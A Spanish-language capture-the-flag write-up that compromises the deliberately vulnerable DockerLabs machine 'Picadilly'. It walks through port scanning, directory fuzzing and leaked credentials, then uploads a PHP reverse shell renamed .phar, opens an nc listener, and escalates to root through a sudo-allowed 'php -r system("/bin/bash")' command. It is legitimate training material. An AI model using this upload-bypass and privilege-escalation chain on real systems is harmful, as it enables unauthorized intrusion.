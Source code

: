 # Informe Técnico - Máquina Picadilly (DockerLabs)

**Dificultad:** Fácil

**Objetivos:** Acceso inicial a la máquina, explotación de vulnerabilidades web, escalada de privilegios a root.

---

## 1. Despliegue de la Máquina

Descargamos la máquina vulnerable `picadilly.zip` desde la página oficial de DockerLabs. Para descomprimir el archivo utilizamos el siguiente comando:

```bash
7z e picadilly.zip
```

Luego desplegamos la máquina ejecutando:

```bash
sudo bash auto_deploy.sh picadilly.tar
```

![Logo](/Picadilly/Imagenes/Logo.png)

---
![Inicio del despliegue](/Picadilly/Imagenes/Inicio.jpeg)

Verificamos que la máquina esté activa con un simple `ping`:

```bash
ping -c1 172.17.0.2
```

![Comprobación de conectividad](/Picadilly/Imagenes/Ping.jpeg)

---

## 2. Reconocimiento con Nmap

Realizamos un escaneo completo de puertos con Nmap para identificar servicios activos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Puertos detectados](/Picadilly/Imagenes/Puertos.jpeg)

Después, utilizamos un script personalizado para extraer los puertos abiertos y la IP objetivo:

```bash
extractPorts allPorts.txt
```

Con los puertos relevantes, hacemos un escaneo más detallado para identificar servicios y versiones:

```bash
nmap -sC -sV -p 80,443 172.17.0.2 -oN target.txt
```

![Servicios detectados](/Picadilly/Imagenes/Servicios.jpeg)

---

## 3. Análisis de las Aplicaciones Web

Accedemos a la interfaz web en el puerto **80 (HTTP)** mediante:

```
http://172.17.0.2/
```

En esta página encontramos un archivo visible llamado `backup.txt`.

![Vista del puerto 80](/Picadilly/Imagenes/http.jpeg)
![Contenido de backup.txt](/Picadilly/Imagenes/backup.jpeg)

Este archivo contenía un acertijo cifrado con el método César. Tras descifrarlo, obtuvimos la palabra clave:

```
gcuaetzcba
```

En el archivo también encontramos credenciales:
**Usuario:** mateo
**Contraseña:** easycrazy 

Accedemos al puerto **443 (HTTPS)** en:

```
https://172.17.0.2/
```

Allí se presenta una página con un sistema de publicación de posts y una funcionalidad de subida de archivos (upload).

![Página HTTPS con funcionalidad de Upload](/Picadilly/Imagenes/Pagina.jpeg)

---

## 4. Fuzzing de Directorios

Usamos herramientas de fuerza bruta para buscar rutas ocultas.

Primero con **Gobuster** en el puerto 80:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

El único archivo interesante encontrado fue `backup.txt`.

Probamos también hacer fuzzing dentro de `/backup.txt`, pero sin resultados:

```bash
gobuster dir -u http://172.17.0.2/backup.txt -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Resultado de Gobuster](/Picadilly/Imagenes/gobuster.jpeg)

Para el puerto 443 usamos **Wfuzz** debido a problemas con Gobuster:

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 https://172.17.0.2/FUZZ
```

Encontramos que la ruta `/uploads/` estaba habilitada.

![Wfuzz detectando el directorio de subida](/Picadilly/Imagenes/wfuzz.jpeg)
![Directorio /uploads encontrado](/Picadilly/Imagenes/uploads.jpeg)

---

## 5. Obtención de Acceso con Reverse Shell

Dado que existía una opción de subir archivos en la sección de posts, intentamos subir una *reverse shell* en PHP.

El archivo fue descargado desde el repositorio de [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

Para evitar restricciones de extensiones, renombramos el archivo como `.phar`. Sorprendentemente, el sistema permitía la subida sin restricción.

![Subida de archivo PHP](/Picadilly/Imagenes/post.jpeg)
![Archivo reverse shell subido exitosamente](/Picadilly/Imagenes/revellshe.jpeg)

Colocamos nuestro host en modo escucha con:

```bash
sudo nc -lvnp 443
```

Y accedimos a la shell mediante:

```
https://172.17.0.2/uploads/reverse.phar
```

¡La conexión fue exitosa!

![Shell remota activa](/Picadilly/Imagenes/shell.jpeg)

---

## 6. Escalada de Privilegios

Ya dentro del sistema, buscamos métodos para escalar privilegios.

Primero ejecutamos:

```bash
sudo -l
```

No se encontró nada útil, por lo que nos dirigimos al directorio `/home`, donde confirmamos que el usuario `mateo` existía.

Probamos autenticarnos como `mateo` con la contraseña que encontramos en el archivo `backup.txt`, ahora ya descifrada:

```
su mateo
Contraseña: easycrazy
```

Al entrar como `mateo`, volvimos a revisar sudo:

```bash
sudo -l
```

Salida:

```
(ALL) NOPASSWD: /usr/bin/php
```

Esto nos dio acceso total. Ejecutamos el siguiente comando para obtener una shell como root:

```bash
sudo /usr/bin/php -r 'system("/bin/bash");'
```

![Acceso root conseguido](/Picadilly/Imagenes/root.jpeg)

---

## Conclusión

Esta máquina presenta una ruta de explotación sencilla pero completa: detección de credenciales en un archivo público, un sistema de subida vulnerable sin filtros, y una mala configuración de `sudo` que permite ejecución de comandos como root mediante PHP. Es ideal para entender fallos típicos en seguridad web y escalada de privilegios basada en configuraciones inseguras.


